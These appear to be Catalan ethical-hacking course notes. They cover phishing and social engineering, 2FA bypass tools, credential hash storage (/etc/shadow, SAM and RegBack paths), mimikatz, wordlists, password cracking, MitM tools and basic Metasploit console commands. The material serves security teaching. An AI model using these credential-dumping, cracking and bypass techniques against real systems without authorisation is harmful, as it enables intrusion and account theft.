



Hàcking Ètic a xarxes i sistemes
Totes les pràctiques d'este curs es realitzaran baix:
- ⚖️ Un marc legal i ètic
- 🔒 Entorn aïllat
- 🧪 Controlat
- 📜 Amb permís
- 🎓 Fins educatius / professionals
Primer accés
Obtenció del primer accés en un Pentest
En un pentest d’una xarxa empresarial, el primer accés (initial access) és el moment en què l’auditor aconsegueix entrar al perímetre de l’organització amb algun tipus de control real.
Què es considera primer accés?
- Credencials vàlides d’un usuari corporatiu
- Accés a una aplicació interna o portal empresarial
- Execució de comandes en un servidor o endpoint
- Connexió a la xarxa interna (VPN, RDP, SSH, etc.)
Vectors més habituals
- Factor humà: phishing, reutilització de contrasenyes
- Aplicacions web: vulnerabilitats o errors d’autenticació
- Infraestructura exposada: serveis mal configurats
- Dispositius d’usuari: endpoints amb controls febles
Enginyeria Social
La enginyeria social és un conjunt de tècniques utilitzades per manipular persones amb l’objectiu d’obtenir informació, accés o accions que comprometen la seguretat d’una organització. A diferència dels atacs purament tècnics, se centra en el factor humà.
Per què funciona la enginyeria social?
Les persones prenen decisions basades en emocions, hàbits i confiança.Els atacants exploten aquestes característiques per evitar controls tècnics i de seguretat.
Principis psicològics fonamentals
- Autoritat
Les persones tendeixen a obeir figures d’autoritat (directius, personal tècnic, responsables). - Urgència
Crear una situació de pressa o emergència redueix la capacitat de verificació racional. - Confiança
L’ús d’un llenguatge professional o familiar genera credibilitat i disminueix les sospites. - Por
Amenaces de conseqüències negatives si no s’actua immediatament. - Reciprocitat
Quan algú ofereix ajuda o un benefici, es genera una obligació implícita de correspondre. - Curiositat
Missatges atractius o misteriosos que incentiven l’acció impulsiva.
Tècniques habituals d’enginyeria social
- Phishing (correus electrònics fraudulents)
- Vishing (trucades telefòniques)
- Smishing (SMS o missatges instantanis)
- Pretexting (creació d’un escenari fals)
- Baiting (oferir un incentiu o recompensa)
- Tailgating (accés físic no autoritzat)
Impacte en una organització
Un atac d’enginyeria social amb èxit pot provocar:
- Robatori de credencials
- Accés no autoritzat a sistemes interns
- Pèrdua de dades sensibles
- Dany reputacional
- Impacte econòmic
Phishing
El phishing és una tècnica d’enginyeria social que té com a objectiu enganyar les víctimes perquè revelen informació sensible (credencials, dades personals, informació financera) o perquè executen accions malicioses, com clicar en enllaços o descarregar arxius.
Aquest tipus d’atac se centra principalment en el factor humà i acostuma a simular comunicacions legítimes d’empreses, institucions o persones de confiança.
Com funciona el phishing
- L’atacant crea un missatge que sembla legítim
- La víctima rep el missatge (correu, SMS, trucada, etc.)
- Es genera una situació d’urgència o confiança
- La víctima realitza l’acció sol·licitada
- L’atacant obté accés o informació sensible
Tipus principals de phishing
- Email Phishing
El més comú. Correus electrònics massius que suplanten bancs, serveis online o departaments interns d’una empresa. - Spear Phishing
Atacs dirigits a una persona o grup concret, amb informació personalitzada per augmentar la credibilitat. - Whaling
Variant del spear phishing orientada a alts càrrecs (directius, gerència, CFO, CEO). - Smishing
Phishing mitjançant missatges SMS o aplicacions de missatgeria instantània. - Vishing
Atacs realitzats a través de trucades telefòniques, sovint simulant serveis tècnics o entitats oficials. - Clone Phishing
Es copia un correu legítim prèviament rebut i se’n modifica el contingut per introduir un enllaç o arxiu maliciós. - Business Email Compromise (BEC)
Compromís de comptes corporatius per ordenar pagaments fraudulents o sol·licitar informació confidencial.
Impacte del phishing en una organització
- Robatori de credencials corporatives
- Accés no autoritzat a sistemes interns
- Pèrdues econòmiques
- Fuites de dades sensibles
- Dany reputacional
Com protegir-se del phishing
- Formació i conscienciació del personal
- Verificar sempre l’origen dels missatges
- No clicar en enllaços sospitosos
- Ús d’autenticació multifactor (MFA)
- Filtres antispam i controls de correu
Atacs relacionats amb fitxers adjunts mailiciosos
Els correus alectronics poden contindre arxius adjunts, que si es decarreguen , obrin, o s'executen (depenent de la vulnerabilitat que exploten), seran una porta d'entrada a la xarxa objectiu
- Alguns atacs/vulns destacables
- Vuln. Follina (CVE-2022-30190). zero click. Afecta a fitxers d'office MS
- CVE-2021-40444. Fitxers MS Word
- Zip-Slip
- Zip-Symlink
- CVE-2023-23397 (zero click) Outlook
- Atacs a M. Exchange (ProxyLogon, ProxyOracle, ProxyShell)
Eines de phishing
En l’àmbit de la ciberseguretat, les eines de phishing s’utilitzen principalment en pentests autoritzats, auditories de seguretat i campanyes de conscienciació per avaluar la resistència de les organitzacions davant atacs basats en enginyeria social.
L’objectiu no és comprometre usuaris, sinó identificar debilitats humanes i de procés per millorar la seguretat global.
Per què s’utilitzen en pentesting?
- Avaluar el nivell de conscienciació dels empleats
- Mesurar la capacitat de detecció d’atacs
- Validar procediments interns de resposta
- Reduir riscos abans d’un atac real
SET (Social-Engineer Toolkit)
SET (Social-Engineer Toolkit) és una eina de codi obert dissenyada per a auditories de seguretat i proves d’enginyeria social autoritzades. El seu objectiu principal és avaluar el factor humà dins d’una organització, un dels vectors d’atac més explotats en incidents reals de seguretat.
Objectiu principal de SET
SET permet simular atacs d’enginyeria social per comprovar si els empleats, procediments i controls de seguretat són capaços de detectar i resistir intents de manipulació.
Relació amb el phishing
Una de les funcionalitats més conegudes de SET és la simulació de campanyes de phishing, utilitzades en pentests amb autorització contractual per:
- Avaluar la conscienciació dels usuaris
- Detectar debilitats en processos interns
- Mesurar el temps de resposta davant incidents
- Comprovar controls de seguretat existents
Tipus de simulacions que permet SET
- Enginyeria social basada en correu electrònic
- Portals web falsos per a proves de credencials
- Escenaris de manipulació psicològica
- Proves de confiança i autoritat simulada
Altres eines habituals són: MaxPhisher i Gophish
Evitar la protecció de doble factor 2FA
Una vegada s'obtenen credencials d'un usuari, es procedirà a provarles en diferents serveis, VPN, mail, access a sistema operatiu, accés a aplicacions .. Este atac de reutilització de credencials s'anomena password spraying
El Doble Factor d’Autenticació (2FA) és una de les mesures de seguretat més eficaces per protegir comptes i sistemes. Tot i això, no és infal·lible si s’implementa o s’utilitza incorrectament.
Si el pentester es troba amb un 2FA, pot intentar botar-lo amb eines com evilginx2 o modlishka
També es pot practicar com botar-se esta protecció en diversos laboratoris de la academia de PortSwigger
Tècniques de Red Team
En un exercici de red team autoritzat, les tècniques d’atac no es limiten a l’àmbit digital. Molts atacs reals combinen factors físics, humans i tecnològics. L’objectiu no és “trencar sistemes”, sinó avaluar la seguretat real d’una organització.
Red Team vs Pentesting tradicional
A diferència d’un pentest clàssic, el red team:
- Simula atacants reals
- Combina múltiples vectors
- Avalua detecció i resposta
- Inclou seguretat física i humana
1. Lock Picking (Seguretat física)
El lock picking representa l’avaluació de controls d’accés físics. No se centra en forçar portes, sinó en comprovar si els mecanismes físics ofereixen una protecció real.
Què avalua?- Qualitat dels panys
- Dependència excessiva del control físic
- Absència de capes addicionals de seguretat
- Accés físic no autoritzat
- Connexió directa a la xarxa interna
- Manipulació de dispositius
- Panys certificats i de qualitat
- Controls d’accés electrònics
- Càmeres i monitoratge
- Seguretat per capes
2. Rubber Ducky / BadUSB
Els dispositius Rubber Ducky o BadUSB simulen ser perifèrics legítims (com teclats o adaptadors), però representen un risc quan els dispositius USB són confiats automàticament.
Hi ha altres dispositius com Flipper Zero, KeyCroc, Evil Crow RF, etc.
Este tipus d'atac va ser emprat per primera vegada amb el virus Stuxnet
- Desactivar USB no necessaris
- Control de dispositius (Device Control)
- EDR i protecció d’endpoint
- Formació dels usuaris
Factor humà: el denominador comú
Tant el lock picking com el BadUSB demostren que el factor humà és clau:
- Confiança excessiva
- Manca de consciència de seguretat
- Rutines previsibles
Atacs criptografics
Els atacs criptogràfics són tècniques utilitzades per comprometre la confidencialitat, integritat o autenticitat de la informació protegida mitjançant mecanismes criptogràfics. Sovint no ataquen l’algoritme en si, sinó errors d’implementació, configuració o ús.
Per què són crítics?
La criptografia és la base de la seguretat moderna: comunicacions xifrades, autenticació, signatures digitals i protecció de dades. Quan falla, l’impacte pot ser total.
Segons la guia CCN-STIC 807, els errors més comuns
- Crear el nostre propi algorisme criptografic
- Implementar un algorisme existent
- Mal ús de llibreries i algorismes existents
- Predictibilitat (oracle attacks)
- Evitació de la criptografia (canal lateral)
- Criptografia no aillada
Principals categories d’atacs criptogràfics
1. Atacs contra xifratge feble o obsolet
- Ús d’algoritmes antics o insegurs
- Claus massa curtes
- Xifratge simètric o asimètric mal seleccionat
2. Atacs contra la gestió de claus
- Claus emmagatzemades en text pla
- Reutilització de claus
- Distribució insegura de claus
- Rotació inexistent o incorrecta
3. Atacs contra funcions hash
- Col·lisions (dos valors amb el mateix hash)
- Hashes sense salt
- Algoritmes hash trencats o obsolets
4. Atacs de canal lateral (Side-Channel)
- Anàlisi de temps d’execució
- Consum d’energia
- Errors o missatges retornats
5. Atacs a protocols criptogràfics
- Configuracions TLS incorrectes
- Protocols antics habilitats
- Negociació insegura de xifratge
- Recursos per ampliar coneixements sobre criptografia
- Class4crypt (Canal de youtube)
- criptografiayseguridad.blogspot.com
- Criptored (Projecte) I en diferents plataformes de reptes com Atenea, Academia Hacker, PicoCTF, etc..
- Proyecto CLCript
- Blog de Mikel Garcia Larragan
- cryptopals.com - challenges
- Ferramenta criptovenom
Password hashing
El password hashing és un mecanisme de seguretat utilitzat per protegir les contrasenyes dels usuaris. En lloc de desar la contrasenya en text pla, el sistema emmagatzema una empremta criptogràfica (hash) generada a partir d’aquesta.
Per què no s’han d’emmagatzemar contrasenyes en text pla?
Si una base de dades és compromesa i les contrasenyes estan en text pla, totes les credencials queden exposades immediatament. El password hashing redueix dràsticament l’impacte d’aquest tipus d’incidents.
Què és un hash?
Un hash és el resultat d’una funció matemàtica que:
- Converteix dades d’entrada en una sortida de longitud fixa
- No es pot revertir (funció unidireccional)
- Canvia completament amb una mínima variació de l’entrada
Procés bàsic de password hashing
- L’usuari introdueix una contrasenya
- El sistema aplica una funció hash segura
- El resultat s’emmagatzema a la base de dades
- En el login, es calcula el hash de la contrasenya introduïda
- Es comparen els hashes, no les contrasenyes
El concepte de salt
Un salt és un valor aleatori afegit a la contrasenya abans de calcular el hash. El seu objectiu és evitar:
- Atacs amb taules rainbow
- Que dues contrasenyes iguals tinguen el mateix hash
Un pepper és similar al salt però no s'emmagatzema junt al hash
** Afegir un nombre gran d'iteracions per generar la clau, fa més robust el hash
** Afegir requeriments de memòria grans, augmenta el cost computacinal de força bruta
Algorismes recomanats per a contrasenyes
- bcrypt
- Argon2 (recomanat actualment)
- scrypt
- PBKDF2
Algorismes NO recomanats
- MD5
- SHA-1
- SHA-256 (sense iteracions ni salt)
Emmagatzemament de passwords(hash) en SO
Linux
En sistemes Linux, les contrasenyes dels usuaris no s’emmagatzemen en text pla. En el seu lloc, el sistema guarda un hash criptogràfic de la contrasenya, la qual cosa permet verificar-la sense revelar el seu valor original.
On s’emmagatzemen els hash en Linux?
/etc/passwd
Antigament contenia les contrasenyes, però actualment només guarda informació bàsica de l’usuari. El camp de contrasenya sol contenir una x indicant que el hash real està en un altre fitxer.
/etc/shadow
El fitxer /etc/shadow conté els hash reals de les contrasenyes i només és accessible per l’usuari root.
Cada entrada inclou:
- Nom d’usuari
- Hash de la contrasenya
- Informació de caducitat
- Polítiques de canvi
Exemple diego:$6$PmLE1Jrk9oLnacKL$aSRMmaxrkCMvxfK2I9Y80:18118:0:99999:7::: username: diego contrasenya: $6$PmLE1Jrk9oLnacKL$aSRMmaxrkCMvxfK2I9Y80 Data de lúltim canvi : 18124 (*) Edad mínima de la password: 0 Edad máxima de la password: 99999 Període d'avis de caducitat: 7 días. Els tres últims tres camps no tenen dades. (Dies de gràcia després de caducar, Data de bloqueig del compte, Reservat)
$6$PmLE1Jrk9oLnacKL$aSRMmaxrkCMvxfK2I9Y80 $6$ → Algoritme de hash PmLE1Jrk9oLnacKL → Salt (Valor aleatori per evitar rainbow tables.) aSRMmaxrkCMvxfK2I9Y80 → Resultat del hash (És el resultat criptogràfic final del hash)
Codi Algorisme Estat de seguretat Notes $1$ MD5 ❌ Obsolet Trencable ràpidament $2a$ Blowfish ⚠️ Antic Poc habitual avui $2y$ Blowfish (bcrypt) ✅ Segur Usat en alguns sistemes $5$ SHA-256 ⚠️ Acceptable Millor que MD5 $6$ SHA-512 ✅ Segur Molt comú en Linux $y$ yescrypt ✅ Molt segur Recomanat actualment $7$ scrypt ✅ Molt segur Resistent a GPU $argon2i$ Argon2i ✅ Molt segur Memòria-intensiu $argon2id$ Argon2id ✅ Molt segur Estàndard modern
Windows
On emmagatzema Windows els hash?
Windows utilitza principalment dos components:
- SAM (Security Account Manager)
Conté els hashes de les contrasenyes dels comptes locals. - Active Directory (NTDS.dit)
En entorns de domini, emmagatzema els hashes dels usuaris del domini.
Tipus de hashes utilitzats a Windows
- LM (LAN Manager)
Antic i insegur. Avui dia està deshabilitat per defecte. - NTLM
Més robust que LM, però considerat obsolet davant atacs moderns. - NTLMv2
Versió millorada utilitzada en protocols d’autenticació de xarxa.
📍 Ubicació de la SAM (Fitxer principal)
C:\Windows\System32\config\SAM
- Aquest fitxer:
- Conté els hashes dels comptes locals
- Està bloquejat pel sistema quan Windows està en execució
- Només és accessible amb privilegis elevats i en determinades condicions
🔐 Fitxers relacionats (molt importants)
La SAM no funciona sola. Necessita altres fitxers del mateix directori:
C:\Windows\System32\config\ ├─ SAM → comptes locals ├─ SYSTEM → clau per desencriptar la SAM ├─ SECURITY → polítiques locals
⚠️ No es pot llegir en calent !!
Peeeero, Si hi ha imatges de recuperació creades, SAM i SYSTEM també poden estar en C:\windows\repair o en
C:\windows\System32\config\RegBack
A més a més, hi ha eines específiques per obtindre els hash, com , pwdump7 v.ant a W10
, o pwdump8 més actualitzat, samdump2 de kali, o mimikatz (en windows)
que permet extraure contrasenyes de memòria, o fer atacs de pass-the-hash o pass-the-ticket
o Golden tickets, etc..
mimikatz
És una eina de codi obert per a Windows, desenvolupada per Benjamin Delpy , dissenyada per extreure credencials (contrasenyes en text pla, hashes NTLM, tiquets Kerberos) directament de la memòria LSASS (Local Security Authority Subsystem Service). És àmpliament utilitzada per pentesters per a auditories, però també per atacants per escalar privilegis i moure's lateralment en xarxes
Us i creació de diccionaris
En cas d'obtindre hashes en el test d'intrussió, es disposa de tres formes de descobrir les contrasenyes que han generat eixos hashes
- Atacs de força bruta
- Atacs mitjantçant
rainbow tables - Atacs mitjantçant diccionari
Què és un diccionari en seguretat?
Un diccionari és una llista estructurada que pot contenir:
- Contrasenyes habituals
- Paraules comunes
- Combinacions previsibles
- Variants amb números o símbols
- Patrons basats en el context de l’objectiu
Diccionaris genèrics vs diccionaris personalitzats
Diccionaris genèrics
- Contenen contrasenyes comunes
- Són fàcils d’obtenir
- Serveixen com a primera prova
Les llistes de contrasenyes són col·leccions de passwords utilitzades en auditories de seguretat per avaluar la robustesa de les polítiques d’autenticació. En un context professional, s’utilitzen únicament amb autorització i dins l’abast definit.
És un conjunt de contrasenyes recopilades a partir de patrons comuns d’ús humà, filtracions públiques o anàlisi estadística. Aquestes llistes reflecteixen com creen contrasenyes les persones en la pràctica real.
En kali, per defecte hi ha instalat alguns en el directori /usr/share/wordlists i es poden
instalar més, com per exemple la lista Seclist amb apt install seclists situant
els fitxers nous en /usr/share/seclists
La llista més famosa de totes es la llista Rockyou
Hi ha un projecte anomenat Kaonashi que es pot descarregar de github github.com/kaonashi/kaonashi-passwords/Kaonashi
Altres llistes més extenses son: weakpass_4a.txt (>8mill) realuniq.lst(>1200mill)
Altre element important són les contrasenyes predeterminades que posen els fabricants en alguns porductes i
que després no es canvien quan es posen en producció. Este error s'anomena " Security Misconfiguration "
Diccionaris personalitzats
- Es basen en informació de l’organització
- Inclouen noms, marques, ubicacions, anys
- Són molt més efectius en entorns reals
Fonts habituals per a diccionaris personalitzats
- Pàgina web corporativa
- Xarxes socials i perfils públics
- Documents interns (quan està permès)
- Convencions internes de noms
- Errors humans previsibles
Eines per crear diccionaris personalitzats
- cewl
- crunch
cewl
cewl es una eina que genera diccionaris a partir del contingut d'un lloc web
Password cracking
El password cracking és el procés mitjançant el qual es prova de recuperar una contrasenya a partir del seu hash, amb l’objectiu d’avaluar la robustesa de les polítiques de seguretat en auditories autoritzades.
- En un pentest professional, el password cracking no busca “trencar per trencar”, sinó:
- Mesurar la fortalesa real de les contrasenyes
- Detectar riscos associats al factor humà
- Validar polítiques de seguretat existents
- Justificar millores com MFA o canvis de política
Visió general del procés
- Obtenció del material d’autenticació
Es treballa amb hashes o respostes d’autenticació, mai amb contrasenyes en text clar. - Identificació del tipus de hash
Conèixer l’algoritme utilitzat (per exemple, si incorpora sal, iteracions, etc.) és clau per entendre la resistència del sistema. - Selecció d’estratègia
Es tria un enfocament realista basat en patrons humans i context (no força bruta indiscriminada). - Prova controlada
Les proves es fan de manera limitada i documentada, respectant l’abast i evitant impactes operatius. - Anàlisi de resultats
S’avalua què s’ha pogut recuperar i per què, identificant debilitats.
Comparació d’Eines: John the Ripper vs Hashcat
John the Ripper i Hashcat són dues eines àmpliament utilitzades en auditories de seguretat i pentesting autoritzat per avaluar la fortalesa de les contrasenyes. Tot i que comparteixen objectiu, el seu enfocament i característiques són diferents.
Visió general
| Característica | John the Ripper | Hashcat |
|---|---|---|
| Enfocament principal | Flexibilitat i facilitat d’ús | Rendiment i velocitat |
| Ús de GPU | Limitat / opcional | Central (GPU-first) |
| Facilitat per a principiants | Alta | Mitjana |
| Rendiment en grans volums | Moderat | Molt alt |
| Formats de hash | Molt ampli | Molt ampli |
| Configuració inicial | Senzilla | Més complexa |
John the Ripper
John the Ripper és conegut per la seva versatilitat i simplicitat. És especialment útil en entorns on es vol fer una primera avaluació ràpida o quan es treballa amb formats de hash diversos.
Avantatges:- Fàcil d’utilitzar i d’interpretar
- Bona gestió de diccionaris i regles
- Ideal per a proves inicials
- Funciona bé en entorns sense GPU
- Menor rendiment comparat amb GPU
- Escala pitjor en grans volums
Hashcat
Hashcat està orientat al màxim rendiment possible, especialment amb GPU. És l’eina preferida quan es necessita analitzar grans conjunts de hashes de manera eficient.
Avantatges:- Extremadament ràpid amb GPU
- Escala molt bé en entorns grans
- Gran control sobre estratègies avançades
- Ideal per a proves de resistència
- Corba d’aprenentatge més pronunciada
- Dependència de maquinari potent
Quina eina triar en un pentest?
- John the Ripper és ideal per a proves ràpides, entorns petits o formació.
- Hashcat és més adequat per a auditories exhaustives i entorns amb GPU.
- En molts pentests professionals, s’utilitzen de manera complementària.
Eines de cracking online
- Hydra: Suporta gran quantiat de protocols
- Medusa: Igual que Hydra, però amb suport multifil
- Ncrack: Del creador de nmap. Es pot trobar en la pàgina de nmap
Atacs tcp/ip
Paràmetres i Vectors d’Atac a TCP/IP
El conjunt de protocols TCP/IP és la base de les comunicacions en xarxa. La seva flexibilitat i antiguitat fan que determinats paràmetres i camps de protocol puguen ser objecte d’abusos si no s’apliquen controls adequats.
Què s’entén per “paràmetres” en atacs TCP/IP?
Són camps, valors o comportaments dels protocols de xarxa (IP, TCP, UDP, ICMP) que poden ser manipulats per provocar interrupció del servei, evasió de controls o degradació de la seguretat.
Paràmetres rellevants a nivell IP
- Adreça IP origen/destí
Pot ser objecte de suplantació (spoofing) si no hi ha filtratge. - TTL (Time To Live)
El seu valor pot influir en la detecció de rutes i dispositius. - Fragmentació
Paquets fragmentats poden dificultar la inspecció del trànsit.
Paràmetres rellevants a nivell TCP
- Ports origen i destí
Utilitzats per identificar serveis i canals de comunicació. - Flags TCP (SYN, ACK, FIN, RST)
El seu ús indegut pot provocar esgotament de recursos o confusió d’estat. - Número de seqüència
Clau per al control de sessió i la integritat de la connexió. - Window Size
Pot afectar el rendiment i la gestió del flux.
Paràmetres rellevants a UDP
- Absència d’estat
UDP no valida sessions, fet que pot facilitar abusos si no hi ha controls addicionals. - Ports i serveis
Sovint utilitzats en serveis crítics o de temps real.
Paràmetres rellevants a ICMP
- Tipus i codi
Determinen la funció del missatge (errors, eco, redireccions). - Freqüència de missatges
Un ús excessiu pot degradar el servei.
Impactes potencials
- Denegació de servei (DoS)
- Evasió de mecanismes de seguretat
- Interrupció de comunicacions
- Degradació del rendiment de xarxa
MitM
Un atac Man-in-the-Middle (MitM) es produeix quan un atacant s’interposa entre dues parts que es comuniquen, fent-se passar per cadascuna d’elles sense que ho sàpiguen. L’objectiu principal és interceptar, modificar o espiar la comunicació.
- On poden produir-se els atacs MitM?
- Xarxes Wi-Fi obertes o mal configurades
- Xarxes locals (LAN)
- Comunicacions no xifrades
- Entorns amb manca de validació d’identitat
- Objectius habituals d’un MitM
- Captura de credencials
- Espionatge de dades sensibles
- Manipulació de la informació transmesa
- Segrest de sessions
- Mecanismes d'atac
- ARP Cache poisoning
- DNS Spoofing
- Session Hijacking
- SSL Hijacking
- Eines:
- ettercap
- Bettercap
- dsniff
MAC flooding
El MAC Flooding és un atac a nivell de xarxa local (Layer 2 – Ethernet) que té com a objectiu saturar la taula d’adreces MAC d’un switch. Quan això passa, el dispositiu pot començar a comportar-se com un hub, reenviant trànsit per tots els ports.
Com funciona un switch normalment?
Un switch manté una taula MAC (CAM table) que associa:
- Adreça MAC
- Port físic
Això permet enviar cada paquet només al destinatari correcte, millorant el rendiment i la seguretat.
Què passa en un atac de MAC Flooding?
- Durant un MAC Flooding:
- El switch rep un gran nombre d’adreces MAC diferents
- La taula MAC s’omple fins al límit
- El switch no pot aprendre noves associacions
- El trànsit es reenvia per múltiples ports
- Objectius de l’atac
- Interceptar trànsit d’altres dispositius
- Facilitar atacs de tipus MitM
- Degradar el rendiment de la xarxa
- Explotar una configuració insegura de la LAN
- Eines:
- macof
- ettercap
- yersinia
**** TryHackMe disposa d'un laboratori per practicar estos atacs
METASPLOIT

Metasploit és un framework de seguretat utilitzat principalment en pentesting i red team per identificar, validar i demostrar vulnerabilitats en sistemes informàtics de manera controlada i autoritzada.
desenvolupat per la empresa Rapid7, te una versió de codi font obert i una versió pro comercial de pagament
Per aprofundir en l'us i funcionament existeixen diversos recursos.
- Documentació oficial de Rapid7 (start-guide)
- Curs online gratuit Metaspoloit Unleashed de Offensive Security
- Sistemes vulnerables metasploitable: Hi ha tres
Què és un framework?
A diferència d’una eina simple, Metasploit proporciona una plataforma modular que permet integrar exploits, càrregues, auxiliars i eines posteriors a l’explotació dins d’un mateix entorn de treball.
Objectiu principal
- Metasploit no està pensat només per “explotar sistemes”, sinó per:
- Validar vulnerabilitats reals
- Mesurar l’impacte de fallades de seguretat
- Reproduir escenaris d’atac realistes
- Ajudar a millorar les defenses
Components principals
- Exploits
Codi que aprofita una vulnerabilitat concreta. - Payloads
Accions que s’executen després d’una explotació amb èxit. - Auxiliars
Mòduls de suport per escaneig, enumeració i validació. - Post-explotació
Funcionalitats per analitzar l’impacte un cop obtingut accés.
Avantatges de Metasploit
- Gran comunitat i actualitzacions constants
- Estandardització del procés de pentesting
- Permet demostrar impactes reals a nivell executiu
- Integració amb altres eines de seguretat
Limitacions
- No substitueix l’anàlisi manual
- Algunes vulnerabilitats no tenen exploit públic
- Pot generar fals sentiment de seguretat si s’usa malament
Arquitectura de metasploit
Metasploit Framework està dissenyat com una arquitectura modular que permet desenvolupar, integrar i executar diferents components de seguretat dins d’un mateix entorn. Aquesta arquitectura facilita la reutilització de codi, l’escalabilitat i l’extensibilitat.
Arquitectura modular
Metasploit separa clarament les funcionalitats en mòduls independents. Cada mòdul compleix una funció concreta i pot combinar-se amb altres sense modificar el nucli.
Components principals de l’arquitectura
1. Core (Nucli de Metasploit)
El Metasploit Core és el motor del framework. Gestiona:
- La càrrega i execució de mòduls
- La comunicació entre components
- La gestió de sessions
- La interfície amb l’usuari
2. Mòduls
Els mòduls són peces funcionals que s’executen sobre el core. Es divideixen en diferents categories:
- Exploits: representen vulnerabilitats específiques
- Payloads: accions que s’executen després de l’explotació
- Auxiliary: escaneig, enumeració i validació
- Post: accions de post-explotació i anàlisi d’impacte
- Encoders: transformació de dades
- NOPs: suport per a l’estabilitat del codi
3. Payload Architecture
Els payloads tenen una arquitectura pròpia i es poden combinar:
- Payloads individuals (single)
- Payloads en etapes (staged)
- Payloads adaptats al sistema objectiu
Aquesta separació permet reutilitzar payloads amb diferents exploits.
4. Gestió de sessions
Metasploit manté una capa de gestió de sessions que permet interactuar amb sistemes compromesos de forma controlada:
- Seguiment de connexions actives
- Persistència de context
- Execució de mòduls posteriors
Ús bàsic
Kali porta metasploit instal·lat. En altres Distribucions s'haurà d'instal·lar amb ...
sudo apt update sudo apt install metasploit-framework
Metasploit disposa d'una base de dades PostGreSQL, i una comanda per manipular: msfdb
sudo msfdb init | reinit | delete | start | stop |status | run # Esta comanda s'ha de llançar amb permisos (sudo , o ser root)
La primera vegada, init i start, i després sols start
Una vegada iniciada la bbdd executarem la comanda msfconsole , per entrar, i es mostrarà..
msf >
Si no s’inicia msfdb abans d’executar msfconsole, poden passar diverses coses, depenent de com estiga configurat el sistema:
msfconsole arranca igualment, però:
- La base de dades no està connectada
- No es guarden resultats de: hosts, serveis, vulnerabilitats, credencials
- I les ordres com: services, vulns, hosts, creds, etc. no funcionen o eixen buides
Normalment veuràs un missatge tipus: Database not connected i
Metasploit funcionarà en mode “sense persistència”
Una vegada dins de msf> podras provar comandes inicials...
banner color history version tips exit o quit db_status db_connect (per connectar a la bbdd sense eixir de msf> )
Gestió de workspaces
Un workspace és un area de treball on guardar la informació de manera comú. L'habitual es crear un per cada projecte
workspace -- llista els workspaces workspace name -- cambia al workspace name opcions: -a --add name -d --delete name -r --rename old new -v workspace default -- ix d'un workspace / no hi ha exit workspace
Fingerprint d'equip(s) destí
Metasploit pot executar Nmap dins seu:
db_nmap -sV 192.168.1.10 # i després d'acabar, els resultats es guarden en la BBDD de msf # i es poden consultar amb ordres com: services vulns hosts
Metasploit té un sistema de notes internes associades a hosts o sessions.
Exemple: notes add -t exploit -n "Samba vulnerable a usermap_script, accés root" <IP_víctima>
Gestió de mòduls
La gestió de mòduls es fonamental per conduir metasploit. Una vegada es té identificat el destí de l'atac, amb coneixement de les vulnerabilitats, s'haurà de buscar un exploit adequat per intentar atacar
search o help search msf > search smb msf > search type:auxiliary smb msf > search type:exploit smb msf > search cve:2014-3791 msf > search type:exploit arch:x86 platform:Windows
Càrrega i configuració de mòduls
Una vegada es fa la cerca, es mostren resultats, numerats. Es pot fer un info i a continuació
el num, o un use i a continuació el num. En compte del num, es pot posar el nom de l'exploit.
Matching Modules ================ # Name 0 1 2 ......... 3 auxiliary/scanner/smb/smb_version
On # és un num per usar junt a use, (o el Nom(Name))
Es pot fer , use 3, info 3, o use auxiliary/scanner/smb/smb_version
Si es fa un info, ens mostra l'autor, i si soporta un check
# Una vegada es fa un use, cambia el prompt, i es podrà executarinfoooptionsoshow optionsuse auxiliary/scanner/smb/smb_version msf exploit(auxiliary/scanner/smb/smb_version) >
Es mostra una informació incial, de nom, autor, ruta, si suporta check, i la secció més important es Basic options
on es mostren les opcions o variables que té el mòdul
També diu els Current setting i si es Required o no, i una columna de Description
Els valors es podran establir amb SET i el nom de la opció, i a continuacio el VALOR
# Per exemple
msf exploit(auxiliary/scanner/smb/smb_version) > set RHOSTS 192.168.1.24
# Per establir el valor de la opció (que és Required)
Després d'establir valors, es poden comprobar amb show options o options
show options
Per poder llançar exitosament un exploit, s'ha de donar valor a les opcions Required, i de vegades a altes també...
També està la comanda UNSET per llevar valors. (Existeix la comanda setg i unsetg per posar o llevar valors de forma global)
I una vegada amb tots els valors establits, es pot llançar amb
runoexploit
De vegades es pot canviar el PAYLOAD d'un EXPLOIT , abans de llançar-lo
